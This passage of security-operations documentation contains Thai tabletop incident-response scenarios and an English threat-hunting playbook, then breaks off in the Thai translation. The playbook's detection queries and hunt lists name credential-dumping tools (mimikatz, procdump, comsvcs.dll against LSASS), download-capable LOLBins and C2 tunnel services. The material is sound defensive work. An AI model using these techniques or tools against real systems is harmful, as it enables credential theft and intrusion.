> Alert เพิ่มอีก 2 เครื่อง: `FIN-SVR-05` และ `HR-SVR-01` ผู้ใช้ฝ่ายการเงินแจ้งเปิดไฟล์ไม่ได้ — ชื่อไฟล์ลงท้ายด้วย `.locked`

**คำถามอภิปราย:**
- จะหยุด lateral movement อย่างไร?
- Isolate ทั้ง VLAN หรือเฉพาะเครื่อง?
- แจ้ง CISO, Legal, ผู้บริหารตอนไหน?

### Inject 3 — จดหมายเรียกค่าไถ่ (17:00)
> Ransom note ปรากฏ: "ไฟล์ของคุณถูกเข้ารหัสโดย BlackCat จ่าย 50 BTC ภายใน 72 ชั่วโมง"

**คำถามอภิปราย:**
- ติดต่อผู้โจมตีหรือไม่? เพราะอะไร?
- แผนสื่อสารเป็นอย่างไร?
- ตรวจสอบ backup สมบูรณ์ไหม?

### Inject 4 — ข้อมูลรั่วไหล (17:15)
> พบว่ามีการอัพโหลดข้อมูล 200GB ไปยัง IP ภายนอกใน 48 ชม.ที่ผ่านมา รวมถึง PII ลูกค้า

**คำถามอภิปราย:**
- ข้อกำหนด PDPA แจ้งเตือนภายในกี่ชั่วโมง?
- เก็บหลักฐานอย่างไรพร้อมกับกู้คืนระบบ?
- ต้องแจ้งหน่วยงานบังคับใช้กฎหมายไหม?

### ผลลัพธ์ที่คาดหวัง
- [ ] จำแนกความรุนแรง P1 ถูกต้อง
- [ ] Isolate เครื่องภายใน 15 นาที
- [ ] แจ้ง CISO+Legal ภายใน 30 นาที
- [ ] ตรวจสอบ backup ก่อนกู้คืน
- [ ] เข้าใจ timeline แจ้ง PDPA (72 ชม.)

---

## สถานการณ์ 2: Business Email Compromise (BEC)

**ระดับ**: 🟡 ปานกลาง | **เวลา**: 60 นาที | **Playbooks**: PB-17, PB-05, PB-26

### Inject 1 — Email น่าสงสัย (09:00)
> CFO ได้รับ email เร่งด่วนจาก "CEO": "ต้องการให้โอนเงิน 250,000 ดอลลาร์ไปยังบัญชี XXXX ด่วน NDA — อย่าบอกใคร"

### Inject 2 — โดเมนปลอม (09:30)
> พบว่า email มาจาก `ceo@your-company.co` (ไม่ใช่ `.com`) โดเมนลงทะเบียนเมื่อ 2 วันก่อน

### Inject 3 — บัญชีจริงถูกยึด (10:00)
> พบ forwarding rule ใน email จริงของ CEO ส่งต่อ email ทั้งหมดไป Gmail ภายนอก MFA ถูก bypass ด้วย AiTM

### Inject 4 — โอนเงินไปแล้ว (10:30)
> CFO ยอมรับว่าโอนเงินไปแล้ว $85,000 ก่อน SOC จะแจ้งเตือน

---

## สถานการณ์ 3: Insider Threat — ขโมยข้อมูล

**ระดับ**: 🟡 ปานกลาง | **เวลา**: 60 นาที | **Playbooks**: PB-14, PB-08

- Inject 1: HR แจ้ง SOC ว่าวิศวกรอาวุโสลาออก — เปิด enhanced monitoring
- Inject 2: DLP พบดาวน์โหลดข้อมูลลูกค้า 2.5GB + clone repo ที่ไม่เกี่ยวข้อง
- Inject 3: เสียบ USB ส่วนตัว + อัพโหลดไป Google Drive
- Inject 4: HR เรียกประชุม — พนักงานปฏิเสธ, Legal ต้องการหลักฐาน

---

## สถานการณ์ 4: Cloud Infrastructure ถูกบุกรุก

**ระดับ**: 🔴 ยาก | **เวลา**: 90 นาที | **Playbooks**: PB-16, PB-27, PB-07

- Inject 1: GuardDuty alert — IAM credentials ใช้จาก IP ยุโรปตะวันออก (ตี 2)
- Inject 2: Privilege escalation — สร้าง admin user ใหม่
- Inject 3: ปั่น EC2 ขุด crypto + เปิด S3 เป็น public
- Inject 4: Root cause = SSRF vulnerability ขโมย metadata credentials

---

## สถานการณ์ 5: OT/ICS — โจมตีโรงบำบัดน้ำ

**ระดับ**: 🔴🔴 วิกฤต | **เวลา**: 90 นาที | **Playbooks**: PB-30

- Inject 1: HMI แสดงค่า NaOH เปลี่ยนจาก 100ppm เป็น 1,100ppm โดยไม่มีผู้ปฏิบัติงานทำ
- Inject 2: พบ VPN connection จาก IP ไม่รู้จัก + TeamViewer บน engineering workstation
- Inject 3: หน่วยงานสาธารณสุขโทรมา + สื่อเริ่มรายงานข่าว
- Inject 4: แก้ไขค่า NaOH แล้ว ต้องตรวจสอบ PLC logic

---

## ตารางให้คะแนน (Scoring Rubric)

| หมวด | คะแนน 1–5 |
|:---|:---:|
| ความเร็วในการตรวจจับ | _/5 |
| ความถูกต้องในการ Escalate | _/5 |
| การควบคุมเหตุการณ์ | _/5 |
| การสื่อสาร | _/5 |
| การจัดการหลักฐาน | _/5 |
| การวางแผนกู้คืน | _/5 |
| การปฏิบัติตามกระบวนการ | _/5 |

**คะแนนรวม: ___/35** → 🟢 30+ ดีเยี่ยม | 🟡 22–29 ดี | 🟠 15–21 พัฒนาได้ | 🔴 <15 ต้องปรับปรุง

---

## ปฏิทินการซ้อม

| ไตรมาส | สถานการณ์ | จุดเน้น | ผู้เข้าร่วม |
|:---:|:---|:---|:---|
| Q1 | Ransomware (#1) | Containment + Recovery | SOC + IT Ops + ผู้บริหาร |
| Q2 | BEC (#2) | Detection + สื่อสาร | SOC + Finance + Legal |
| Q3 | Insider Threat (#3) | Monitoring + หลักฐาน | SOC + HR + Legal |
| Q4 | Cloud Compromise (#4) | Cloud IR + Escalation | SOC + Cloud Team |
| ประจำปี | OT/ICS (#5) | ความปลอดภัย + OT | SOC + วิศวกร OT |

---

## เทมเพลตวาระ Exercise

| เวลา | กิจกรรม | ผู้รับผิดชอบ |
|:---:|:---|:---|
| 15 นาที | **เปิดประชุม**: วัตถุประสงค์, กฎกติกา | Facilitator |
| 10 นาที | **Scenario Briefing**: สถานการณ์เริ่มต้น | Facilitator |
| 30 นาที | **Phase 1 — Detection**: ตรวจพบ, คัดกรอง | SOC Team |
| 20 นาที | **Phase 2 — Containment**: ตัดสินใจควบคุม | IR Lead |
| 20 นาที | **Phase 3 — Eradication**: กำจัดภัยคุกคาม | IR Team |
| 15 นาที | **Phase 4 — Recovery**: กู้คืนระบบ | IT + SOC |
| 20 นาที | **Debrief**: สิ่งที่ทำได้ดี / ต้องปรับปรุง | ทุกคน |
| 10 นาที | **Action Items**: มอบหมายงาน, กำหนดเวลา | Facilitator |

## Facilitator Guide

### ก่อน Exercise (1 สัปดาห์)

- [ ] เลือก scenario ที่เกี่ยวข้องกับองค์กร
- [ ] เตรียม injects (เหตุการณ์ที่จะ "ฉีด" เข้ามาระหว่าง exercise)
- [ ] ส่งคำเชิญและเอกสารเตรียมตัวให้ผู้เข้าร่วม
- [ ] เตรียมห้องประชุม / virtual meeting room
- [ ] ทดสอบ tools ที่จะใช้ (slides, timer, note-taking)

### ระหว่าง Exercise

- **ห้ามตัดสิน** — ไม่มีคำตอบถูก/ผิด ทุกการตัดสินใจเป็นการเรียนรู้
- **ควบคุมเวลา** — ใช้ timer, ไม่ให้ phase ใดยาวเกินไป
- **Inject เหตุการณ์** — เพิ่มความซับซ้อนตามจังหวะ (เช่น "CEO โทรมาถาม")
- **บันทึกทุกอย่าง** — จด decisions, assumptions, gaps ที่พบ

### หลัง Exercise (1 สัปดาห์)

- [ ] เขียน after-action report
- [ ] แจก action items พร้อม owner และ deadline
- [ ] อัปเดต playbooks ตามผลลัพธ์
- [ ] กำหนดวัน exercise ครั้งถัดไป

## ตัวอย่าง Injects

| นาทีที่ | Inject | ผลกระทบ |
|:---:|:---|:---|
| 5 | SOC ได้รับ alert: Ransomware detected on 3 hosts | เริ่ม IR process |
| 15 | EDR agent offline บน domain controller | เพิ่มความเร่งด่วน |
| 25 | CEO โทรถาม "เรามีข่าวหลุดมั้ย?" | ทดสอบ communication |
| 35 | พบ lateral movement ไปยัง database server | ขยาย scope |
| 45 | Backup server ถูก encrypt ด้วย | ทดสอบ BCP |

## ตัวชี้วัด Exercise

| ตัวชี้วัด | เป้าหมาย |
|:---|:---|
| จำนวน exercise ต่อปี | ≥ 4 (รายไตรมาส) |
| ผู้เข้าร่วม vs เป้าหมาย | ≥ 80% |
| Action items แล้วเสร็จภายใน 30 วัน | ≥ 70% |
| ปรับปรุง MTTD/MTTR หลัง exercise | ลดลง ≥ 10% |

## Scenario Library

### Scenario 3: Business Email Compromise (BEC)

| Phase | สถานการณ์ | Decision Point |
|:---|:---|:---|
| **Detection** | พนักงานการเงินรายงาน email จาก CEO ขอโอนเงิน | ยืนยัน email อย่างไร? |
| **Investigation** | ตรวจพบ email header ปลอม + domain typosquatting | Scope ของ compromise? |
| **Containment** | Block malicious domain, reset affected accounts | แจ้งธนาคาร? |
| **Recovery** | Recall ถ้าโอนเงินแล้ว, reset MFA | จะป้องกันซ้ำอย่างไร? |

### Scenario 4: Supply Chain Compromise

| Phase | สถานการณ์ | Decision Point |
|:---|:---|:---|
| **Detection** | EDR alert: malicious DLL loaded by trusted software | Software update ปกติ? |
| **Investigation** | DLL มี C2 callback ไปยัง unknown IP | กี่เครื่องที่ affected? |
| **Containment** | Block outbound C2, isolate hosts | ถอน software? |
| **Recovery** | Re-image, deploy clean version, monitor | แจ้ง vendor? |

### Scenario 5: Insider Data Theft

| Phase | สถานการณ์ | Decision Point |
|:---|:---|:---|
| **Detection** | DLP alert: พนักงาน upload 500MB ไป personal cloud | จงใจหรือผิดพลาด? |
| **Investigation** | พนักงานกำลังจะลาออก, access ข้อมูลลูกค้าจำนวนมาก | เข้า HR process? |
| **Containment** | Revoke access, preserve evidence | Chain of custody? |
| **Legal** | ตรวจสอบสัญญาจ้าง, NDA, PDPA obligations | แจ้งเจ้าของข้อมูล? |

## After-Action Report Template

| ส่วน | เนื้อหา |
|:---|:---|
| **Exercise Date** | [วันที่] |
| **Scenario** | [ชื่อ scenario] |
| **Participants** | [รายชื่อ + บทบาท] |
| **สิ่งที่ทำได้ดี** | [3–5 bullet points] |
| **สิ่งที่ต้องปรับปรุง** | [3–5 bullet points] |
| **Gaps ที่พบ** | [ระบุ gap + severity] |
| **Action Items** | [รายการ + owner + deadline] |
| **ส่งรายงานถึง** | [SOC Manager, CISO] |
| **Exercise ถัดไป** | [วันที่เป้าหมาย] |

## Tabletop Scenario Templates

### Scenario 1: Ransomware Attack

| ขั้นตอน | สถานการณ์ | คำถามอภิปราย |
|:---|:---|:---|
| 1 | พบ file encryption เวลา 02:00 | ใครต้อง notify ก่อน? |
| 2 | 30% ของ servers ถูก encrypt | จ่าย ransom หรือไม่? |
| 3 | ข่าวรั่วไหลสู่สื่อ | PR response อย่างไร? |
| 4 | Recovery เริ่ม 48 ชม. | ลำดับ restore อย่างไร? |

### Scenario 2: Insider Threat

| ขั้นตอน | สถานการณ์ | คำถามอภิปราย |
|:---|:---|:---|
| 1 | DLP alert: mass download | ตรวจสอบอย่างไรโดยไม่แจ้ง? |
| 2 | พนักงานยื่นลาออก 2 สัปดาห์ก่อน | Legal implications? |
| 3 | พบข้อมูลใน personal cloud | การเก็บหลักฐาน? |
| 4 | ข้อมูลลูกค้า 10,000 ราย | แจ้ง PDPA ภายใน 72 ชม.? |

### Exercise Evaluation Rubric

| Criteria | 1 (Poor) | 3 (Adequate) | 5 (Excellent) |
|:---|:---|:---|:---|
| Response Time | >60 นาที | 30-60 นาที | <30 นาที |
| Communication | ไม่มีแผน | มีแผนบางส่วน | แผนชัดเจน |
| Decision Making | ไม่แน่นอน | ค่อนข้างดี | รวดเร็วแม่นยำ |
| Documentation | ไม่บันทึก | บันทึกบางส่วน | บันทึกครบถ้วน |

### Exercise Logistics Checklist

| รายการ | รายละเอียด | สถานะ |
|:---|:---|:---|
| สถานที่ | ห้องประชุม + จอ | ☐ |
| ผู้เข้าร่วม | 8-15 คน | ☐ |
| Facilitator | ผู้ดำเนินรายการ | ☐ |
| Scenario packet | เอกสารสถานการณ์ | ☐ |
| Note-taker | ผู้จดบันทึก | ☐ |
| Timer | จับเวลาแต่ละ phase | ☐ |
| Evaluation form | แบบประเมินผล | ☐ |

### Exercise Calendar (Annual)

| ไตรมาส | Scenario Theme | ระดับ | ผู้เข้าร่วม |
|:---|:---|:---|:---|
| Q1 | Ransomware | Technical | SOC + IT |
| Q2 | Data Breach + PDPA | Strategic | Mgmt + Legal |
| Q3 | Insider Threat | Tactical | SOC + HR |
| Q4 | Supply Chain / Cloud | Technical | SOC + DevOps |

### Follow-up Action Types

| Type | SLA | Owner |
|:---|:---|:---|
| Process update | 2 weeks | SOC Manager |
| New detection rule | 1 week | Engineer |
| Training update | 1 month | Training lead |

### Quick Prep Checklist

| Item | Done |
|:---|:---|
| Scenario ready | ☐ |
| Participants confirmed | ☐ |

## เอกสารที่เกี่ยวข้อง

- [กรอบ IR](Framework.th.md)
- [ตารางความรุนแรง](Severity_Matrix.th.md)
- [Playbook ทั้งหมด (PB-01 ถึง PB-30)](Playbooks/Phishing.th.md)


---

## File: 05_Incident_Response/Threat_Hunting_Playbook.en.md

# Threat Hunting Playbook

**Document ID**: TH-SOP-001
**Version**: 1.0
**Classification**: Internal
**Last Updated**: 2026-02-15

> Threat Hunting is the **proactive, iterative search** for adversary activity that has evaded existing detection mechanisms. Unlike reactive alert triage, hunting assumes the adversary is already inside the network.

---

## Process Overview

```mermaid
graph TD
    START[🎯 Hunting Trigger] --> HYPO[1. Form Hypothesis]
    HYPO --> DATA[2. Identify Data Sources]
    DATA --> HUNT[3. Execute Hunt]
    HUNT --> ANALYZE[4. Analyze Results]
    ANALYZE --> FOUND{Threat Found?}
    FOUND -->|Yes| RESPOND[5a. Escalate to IR]
    FOUND -->|No| TUNE[5b. Refine & Document]
    RESPOND --> DETECT[6. Create Detection Rule]
    TUNE --> DETECT
    DETECT --> LOOP[7. Feed Back to Next Hunt]
    LOOP --> HYPO

    style START fill:#e74c3c,color:#fff
    style FOUND fill:#f39c12,color:#fff
    style RESPOND fill:#e74c3c,color:#fff
    style DETECT fill:#2ecc71,color:#fff
```

---

## 1. Hunting Triggers

Hunts are initiated from one of the following triggers:

| Trigger Type | Source | Example |
|:---|:---|:---|
| **Intelligence-Driven** | CTI feed, ISAC alert, vendor advisory | New APT group targeting your sector |
| **Hypothesis-Driven** | Analyst intuition, gap analysis | "Are there signs of credential stuffing?" |
| **Data-Driven** | Anomaly detection, statistical outlier | Spike in DNS queries to new domains |
| **MITRE ATT&CK Gap** | Coverage heatmap | No detection for T1053 (Scheduled Task) |
| **Incident-Driven** | Post-incident review | Hunt for additional compromised hosts |

---

## 2. Hypothesis Development

A good hunting hypothesis follows the **ABLE** framework:

| Component | Description | Example |
|:---|:---|:---|
| **A**ctor / Threat | Who or what are you hunting for? | APT group using Living-off-the-Land |
| **B**ehavior | What behavior would they exhibit? | PowerShell downloading from external URLs |
| **L**og Source | Where would evidence appear? | Windows Event Log (4688), EDR telemetry |
| **E**vidence | What artifacts confirm the hypothesis? | Encoded commands, unusual parent-child process |

### Hypothesis Template

```
IF [ACTOR/THREAT] targets our environment,
THEN we would expect to see [BEHAVIOR]
IN [LOG SOURCE],
EVIDENCED BY [SPECIFIC ARTIFACTS].
```

### Example Hypotheses

| # | Hypothesis | MITRE Technique | Priority |
|:---:|:---|:---|:---:|
| H-01 | Attackers use scheduled tasks for persistence | T1053.005 | High |
| H-02 | Lateral movement via WMI or PsExec | T1047, T1570 | High |
| H-03 | Data staging before exfiltration via DNS | T1560, T1048.003 | Medium |
| H-04 | Credential dumping from LSASS memory | T1003.001 | Critical |
| H-05 | Living-off-the-Land binaries (LOLBins) | T1218 | High |
| H-06 | Cloud SSO token theft / replay | T1550.001 | High |
| H-07 | Rogue service accounts with anomalous behavior | T1078.002 | Medium |
| H-08 | Supply chain compromise via NuGet/npm packages | T1195.002 | Medium |
| H-09 | Email auto-forwarding rules for collection | T1114.003 | Medium |
| H-10 | Reverse proxy / NGROK tunnels for C2 | T1572 | High |

---

## 3. Data Sources & Requirements

### 3.1 Minimum Data Sources

| Data Source | Use Case | Retention |
|:---|:---|:---:|
| **Windows Event Logs** (4688, 4624, 4625, 7045) | Process creation, logon events, service install | 90 days |
| **EDR Telemetry** | Process tree, file writes, network connections | 90 days |
| **DNS Logs** | Domain lookups, tunneling detection | 90 days |
| **Firewall / Proxy Logs** | Outbound connections, blocked traffic | 90 days |
| **Cloud Audit Logs** (CloudTrail, Azure AD) | API calls, sign-in events | 1 year |

### 3.2 Enrichment Sources

| Source | Purpose |
|:---|:---|
| **VirusTotal / OTX** | Hash, domain, IP reputation |
| **MITRE ATT&CK Navigator** | Technique mapping & coverage |
| **Shodan / Censys** | Exposed assets enumeration |
| **Internal Asset DB** | Host ownership, criticality |

---

## 4. Hunt Execution

### 4.1 Hunt Process (Step-by-Step)

-   [ ] **Step 1**: Document hypothesis in the Hunting Log
-   [ ] **Step 2**: Identify relevant data sources and verify data availability
-   [ ] **Step 3**: Build initial queries (SIEM, EDR, or custom scripts)
-   [ ] **Step 4**: Execute queries and collect results
-   [ ] **Step 5**: Investigate anomalies — pivot, correlate, enrich
-   [ ] **Step 6**: Document findings (positive or negative)
-   [ ] **Step 7**: If threat found → Escalate to IR (follow [IR Framework](Framework.en.md))
-   [ ] **Step 8**: Create or improve detection rule → [Detection Rule Testing SOP](../06_Operations_Management/Detection_Rule_Testing.en.md)
-   [ ] **Step 9**: Close hunt and update Hunting Log

### 4.2 Sample Hunt Queries

#### Hunt H-01: Scheduled Task Persistence (T1053.005)

**Windows Event Log (SIEM Query)**:
```
EventID:4698 OR EventID:106
| where TaskName NOT IN ("Microsoft\\*", "\\GoogleUpdate*")
| stats count by ComputerName, TaskName, TaskAuthor
| where count < 3
```

**EDR Query**:
```
process_name:schtasks.exe
AND cmdline:("/create" OR "/change")
AND NOT cmdline:("\\Microsoft\\*")
| rare by cmdline, hostname
```

#### Hunt H-04: LSASS Memory Access (T1003.001)

**EDR Query**:
```
target_process:lsass.exe
AND access_type:PROCESS_VM_READ
AND NOT source_process IN (
    "csrss.exe", "services.exe", "svchost.exe",
    "wininit.exe", "MsMpEng.exe"
)
```

#### Hunt H-06: Cloud SSO Token Anomaly

**Azure AD / CloudTrail Query**:
```
event_name:("ConsoleLogin" OR "GetSessionToken")
| where source_ip != usual_ip_range
| where user_agent CONTAINS "python" OR user_agent CONTAINS "curl"
| stats count by user, source_ip, user_agent
```

#### Hunt H-10: Reverse Proxy / NGROK Tunneling

**DNS + Proxy Log Query**:
```
dns_query:("*.ngrok.io" OR "*.trycloudflare.com" OR "*.serveo.net" OR "*.localhost.run")
OR proxy_url CONTAINS ("ngrok.io" OR "trycloudflare.com")
| stats count by src_ip, hostname, dns_query
```

---

## 5. Hunting Cadence

| Hunt Type | Frequency | Lead | Duration |
|:---|:---:|:---|:---:|
| **Intelligence-driven** (new IOC/TTP) | As needed | Tier 2/3 | 2–4 hours |
| **Hypothesis-driven** (scheduled) | Weekly | Tier 2/3 | 4–8 hours |
| **MITRE gap-driven** | Monthly | Hunt Lead | 1–2 days |
| **Post-incident** | After every P1/P2 | IR Lead | 4–8 hours |
| **Quarterly deep dive** | Quarterly | Hunt Lead | 1 week |

---

## 6. Hunting Maturity Model

```mermaid
graph LR
    L0[Level 0<br>No Hunting] --> L1[Level 1<br>Ad-Hoc]
    L1 --> L2[Level 2<br>Structured]
    L2 --> L3[Level 3<br>Proactive]
    L3 --> L4[Level 4<br>Automated]

    style L0 fill:#dc2626,color:#fff
    style L1 fill:#f97316,color:#fff
    style L2 fill:#eab308,color:#000
    style L3 fill:#22c55e,color:#fff
    style L4 fill:#3b82f6,color:#fff
```

| Level | Description | Criteria |
|:---:|:---|:---|
| **0** | No hunting capability | Purely reactive, alert-driven |
| **1** | Ad-hoc hunting | Occasional hunts after major incidents only |
| **2** | Structured hunting | Scheduled hunts, documented hypotheses, basic metrics |
| **3** | Proactive hunting | MITRE-aligned, threat intel-driven, feedback loop to new rules |
| **4** | Automated hunting | ML-assisted anomaly detection, automated hypothesis generation |

### Self-Assessment Checklist

-   [ ] Do we hunt at least **weekly**?
-   [ ] Are hypotheses **documented** before execution?
-   [ ] Do hunts produce **new detection rules**?
-   [ ] Is hunting coverage mapped to **MITRE ATT&CK**?
-   [ ] Do we track **hunting KPIs** (hunts/month, detections created)?
-   [ ] Is there a **dedicated hunter** (not just reactive analysts)?

---

## 7. Hunting KPIs

| KPI | Target | Measurement |
|:---|:---:|:---|
| Hunts completed per month | ≥ 4 | Count of closed hunt tickets |
| Detection rules created from hunts | ≥ 2/month | New Sigma rules from hunting |
| MITRE technique coverage increase | +5% / quarter | ATT&CK Navigator delta |
| Mean time to detect (MTTD) improvement | ↓ 10% / quarter | Before vs after hunt rules |
| True positive rate of new rules | ≥ 70% | TP / (TP + FP) of hunt-created rules |
| Adversary dwell time reduction | ↓ each quarter | Average detection lag |

---

## 8. Hunting Log Template

Every hunt must be documented using this template:

| Field | Value |
|:---|:---|
| **Hunt ID** | TH-YYYY-NNN |
| **Date** | [YYYY-MM-DD] |
| **Hunter** | [Analyst Name] |
| **Hypothesis** | [Describe the hypothesis] |
| **MITRE Technique** | [T-code] |
| **Trigger** | Intelligence / Hypothesis / Data / Gap / Incident |
| **Data Sources Used** | [List logs queried] |
| **Queries Used** | [Paste SIEM/EDR queries] |
| **Findings** | [Positive / Negative / Inconclusive] |
| **Evidence** | [Screenshots, IOCs, timelines] |
| **Action Taken** | [Escalated to IR / New detection rule / None] |
| **Detection Rule Created** | [Sigma file name or "N/A"] |
| **Time Spent** | [Hours] |
| **Status** | Open / In Progress / Closed |

---

## 9. Top 10 Hunt Playbooks (Ready to Execute)

### HP-01: Unauthorized Scheduled Tasks (T1053)
- **Query**: New scheduled tasks created in last 7 days not matching whitelist
- **Indicators**: Task created by non-admin user, unusual binary in action field
- **Escalation**: If found → PB-07 Privilege Escalation

### HP-02: LSASS Credential Dumping (T1003)
- **Query**: Processes accessing lsass.exe memory with read permissions
- **Indicators**: procdump, mimikatz, comsvcs.dll MiniDump
- **Escalation**: If found → PB-05 Account Compromise

### HP-03: DNS Tunneling / DGA (T1048.003)
- **Query**: DNS queries with unusually long subdomains or high entropy
- **Indicators**: Query length > 50 chars, NXDomain ratio > 30%
- **Escalation**: If found → PB-24 DNS Tunneling

### HP-04: Living-off-the-Land (LOLBins) (T1218)
- **Query**: Execution of certutil, mshta, regsvr32, rundll32 with network activity
- **Indicators**: Download flags, encoded parameters, unusual parent process
- **Escalation**: If found → PB-11 Suspicious Script

### HP-05: Lateral Movement via Admin Shares (T1021.002)
- **Query**: SMB connections to C$ or ADMIN$ from non-admin workstations
- **Indicators**: Multiple hosts accessed in short time, off-hours activity
- **Escalation**: If found → PB-12 Lateral Movement

### HP-06: Cloud Identity Anomalies (T1078.004)
- **Query**: Impossible travel, new MFA registration, service principal abuse
- **Indicators**: Login from new country, automated user agent, bulk API calls
- **Escalation**: If found → PB-16 Cloud IAM Anomaly

### HP-07: Email Forwarding Rules (T1114.003)
- **Query**: New inbox rules forwarding to external domains
- **Indicators**: Rule created via API, forwarding to personal email
- **Escalation**: If found → PB-17 BEC

### HP-08: Data Staging / Compression (T1560)
- **Query**: Large archive creation (7z, rar, zip) on servers or DB hosts
- **Indicators**: Archive > 100MB, created at unusual hours, followed by upload
- **Escalation**: If found → PB-08 Data Exfiltration

### HP-09: Reverse Proxy C2 (T1572)
- **Query**: ngrok.io, trycloudflare.com, serveo.net DNS or proxy hits
- **Indicators**: Persistent connections, bidirectional traffic
- **Escalation**: If found → PB-13 C2 Communication

### HP-10: Cryptomining Indicators (T1496)
- **Query**: High CPU processes, connections to mining pools, Stratum protocol
- **Indicators**: xmrig, minergate, pool.* DNS queries
- **Escalation**: If found → PB-23 Cryptomining

---

## Related Documents

-   [IR Framework](Framework.en.md)
-   [Severity Matrix](Severity_Matrix.en.md)
-   [SOAR Playbooks](SOAR_Playbooks.en.md)
-   [Detection Rule Testing SOP](../06_Operations_Management/Detection_Rule_Testing.en.md)
-   [TI Feeds Integration](../06_Operations_Management/TI_Feeds_Integration.en.md)
-   [Threat Intelligence Lifecycle](../06_Operations_Management/Threat_Intelligence_Lifecycle.en.md)
-   [SOC Metrics & KPIs](../06_Operations_Management/SOC_Metrics.en.md)
-   [Atomic Test Map](../09_Simulation_Testing/Atomic_Test_Map.en.md)
-   [MITRE ATT&CK Heatmap](../tools/mitre_attack_heatmap.html)

## References

-   [MITRE ATT&CK](https://attack.mitre.org/)
-   [Sqrrl Threat Hunting Framework](https://www.threathunting.net/sqrrl-archive)
-   [SANS Threat Hunting Survey](https://www.sans.org/white-papers/threat-hunting-survey/)
-   [TaHiTI — Targeted Hunting integrating Threat Intelligence](https://www.betaalvereniging.nl/wp-content/uploads/TaHiTI-Threat-Hunting-Methodology.pdf)
-   [NIST SP 800-61r2 — Computer Security Incident Handling Guide](https://csrc.nist.gov/publications/detail/sp/800-61/rev-2/final)


---

## File: 05_Incident_Response/Threat_Hunting_Playbook.th.md

# Threat Hunting Playbook / คู่มือการล่าภัยคุกคาม

**รหัสเอกสาร**: TH-SOP-001
**เวอร์ชัน**: 1.0
**การจัดชั้นความลับ**: ใช้ภายใน
**อัปเดตล่าสุด**: 2026-02-15

> Threat Hunting คือ **การค้นหาเชิงรุก** กิจกรรมของผู้บุกรุกที่หลุดรอดจากระบบตรวจจับที่มีอยู่ ต่างจากการรอดู alert ทั่วไป hunting ตั้งสมมติฐานว่า **ผู้บุกรุกอยู่ในระบบแล้ว**

---

## ภาพรวมกระบวนการ

```mermaid
graph TD
    START[🎯 Trigger เริ่มล่า] --> HYPO[1. ตั้งสมมติฐาน]
    HYPO --> DATA[2. ระบุ Data Sources]
    DATA --> HUNT[3. ดำเนินการล่า]
    HUNT --> ANALYZE[4. วิเคราะห์ผลลัพธ์]
    ANALYZE --> FOUND{พบภัยคุกคาม?}
    FOUND -->|ใช่| RESPOND[5a. ส่งต่อ IR]
    FOUND -->|ไม่| TUNE[5b. ปรับปรุง & บันทึก]
    RESPOND --> DETECT[6. สร้าง Detection Rule]
    TUNE --> DETECT
    DETECT --> LOOP[7. ป้อนกลับรอบถัดไป]
    LOOP --> HYPO

    style START fill:#e74c3c,color:#fff
    style FOUND fill:#f39c12,color:#fff
    style RESPOND fill:#e74c3c,color:#fff
    style DETECT fill:#2ecc71,color:#fff
```

---

## 1. Trigger (ตัวกระตุ้นการล่า)

| ประเภท Trigger | แหล่งข้อมูล | ตัวอย่าง |
|:---|:---|:---|
| **Intelligence-Driven** | CTI feed, ISAC alert, คำแนะนำจาก vendor | กลุ่ม APT ใหม่โจมตีอุตสาหกรรมของเรา |
| **Hypothesis-Driven** | ความชำนาญของ analyst, gap analysis | "มีสัญญาณ credential stuffing หรือไม่?" |
| **Data-Driven** | anomaly detection, ค่าผิดปกติทางสถิติ | DNS queries ไปยัง domain ใหม่พุ่งสูงผิดปกติ |
| **MITRE ATT&CK Gap** | Coverage heatmap | ไม่มี detection สำหรับ T1053 (Scheduled Task) |
| **Incident-Driven** | บทเรียนหลังเหตุการณ์ | ค้นหาเครื่องอื่นที่อาจถูกบุกรุกเพิ่มเติม |

---

## 2. การพัฒนาสมมติฐาน (ABLE Framework)

สมมติฐานที่ดีใช้กรอบ **ABLE**:

| องค์ประกอบ | คำอธิบาย | ตัวอย่าง |
|:---|:---|:---|
| **A**ctor / ภัยคุกคาม | ใครหรืออะไรที่กำลังล่า? | กลุ่ม APT ใช้ Living-off-the-Land |
| **B**ehavior / พฤติกรรม | พวกเขาจะทำอะไร? | PowerShell ดาวน์โหลดจาก URL ภายนอก |
| **L**og Source / แหล่งข้อมูล | หลักฐานจะปรากฏที่ไหน? | Windows Event Log (4688), EDR telemetry |
| **E**vidence / หลักฐาน | อะไรยืนยันสมมติฐาน? | คำสั่ง encoded, parent-child process ผิดปกติ |

### Template สมมติฐาน

```
ถ้า [ภัยคุกคาม] โจมตีระบบของเรา
เราจะเห็น [พฤติกรรม]
ใน [แหล่งข้อมูล]
โดยมีหลักฐานคือ [สิ่งที่ค้นพบ]
```

### ตัวอย่างสมมติฐาน

| # | สมมติฐาน | MITRE Technique | ระดับความสำคัญ |
|:---:|:---|:---|:---:|
| H-01 | ผู้โจมตีใช้ scheduled tasks เพื่อ persistence | T1053.005 | สูง |
| H-02 | Lateral movement ผ่าน WMI หรือ PsExec | T1047, T1570 | สูง |
| H-03 | Data staging ก่อน exfiltration ผ่าน DNS | T1560, T1048.003 | ปานกลาง |
| H-04 | Credential dumping จาก LSASS memory | T1003.001 | วิกฤต |
| H-05 | ใช้ LOLBins (certutil, mshta, regsvr32) | T1218 | สูง |
| H-06 | Cloud SSO token theft / replay | T1550.001 | สูง |
| H-07 | Service account ที่มีพฤติกรรมผิดปกติ | T1078.002 | ปานกลาง |
| H-08 | Supply chain compromise ผ่าน NuGet/npm | T1195.002 | ปานกลาง |
| H-09 | Email auto-forwarding rules | T1114.003 | ปานกลาง |
| H-10 | Reverse proxy / NGROK tunnels สำหรับ C2 | T1572 | สูง |

---

## 3. Data Sources & ข้อกำหนด

### 3.1 Data Sources ขั้นต่ำ

| Data Source | กรณีใช้งาน | ระยะเก็บ |
|:---|:---|:---:|
| **Windows Event Logs** (4688, 4624, 4625, 7045) | Process creation, logon, service install | 90 วัน |
| **EDR Telemetry** | Process tree, file writes, network connections | 90 วัน |
| **DNS Logs** | Domain lookups, tunneling detection | 90 วัน |
| **Firewall / Proxy Logs** | Outbound connections, blocked traffic | 90 วัน |
| **Cloud Audit Logs** (CloudTrail, Azure AD) | API calls, sign-in events | 1 ปี |

### 3.2 แหล่ง Enrichment

| แหล่ง | วัตถุประสงค์ |
|:---|:---|
| **VirusTotal / OTX** | ตรวจสอบชื่อเสียง hash, domain, IP |
| **MITRE ATT&CK Navigator** | แมป technique & coverage |
| **Shodan / Censys** | ค้นหา asset ที่เปิดเผย |
| **Internal Asset DB** | เจ้าของเครื่อง, ระดับความสำคัญ |

---

## 4. การดำเนินการล่า

### 4.1 ขั้นตอน (ทีละขั้น)

